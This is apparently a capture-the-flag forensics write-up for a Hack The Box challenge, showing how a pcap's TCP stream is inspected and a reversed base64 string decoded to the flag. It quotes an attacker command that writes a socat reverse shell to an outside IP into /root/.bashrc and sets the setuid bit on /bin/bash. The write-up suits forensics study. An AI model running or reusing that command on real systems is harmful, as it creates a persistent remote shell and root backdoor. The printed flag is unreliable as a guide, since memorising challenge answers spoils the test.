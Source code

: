 # forensics_wrong_spooky_season (1)

We open the pcap file, go in `Statistics` > `Conversations` > `TCP`

On the first conversation, we can `Follow Stream`

In the new window there is this line:
```bash
echo 'socat TCP:192.168.1.180:1337 EXEC:sh' > /root/.bashrc && echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev > /dev/null && chmod +s /bin/bash
ls -lha
```

This is obviously a base64 encoded string:
```bash
echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev
# SFRCe2o0djRfNXByMW5nX2p1c3RfYjNjNG0zX2o0djRfc3AwMGt5ISF9Cg==
```

Decoding the string gives the flag:
```bash
echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev | base64 -d
# HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}
```
